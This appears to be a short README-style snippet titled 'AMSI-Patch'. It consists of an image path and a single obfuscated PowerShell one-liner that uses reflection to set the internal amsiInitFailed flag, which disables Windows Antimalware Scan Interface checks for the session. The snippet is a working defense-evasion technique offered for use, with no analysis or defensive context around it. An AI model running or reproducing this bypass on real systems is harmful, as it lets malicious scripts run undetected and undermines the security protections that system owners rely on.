 # AMSI-Patch

```$x = 'si'; $c = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $c, $x)); $z = $Ref.GetField(('am{0}InitFailed' -f $x),'NonPublic,Static'); $z.("Set" + "Value")($null,$true)
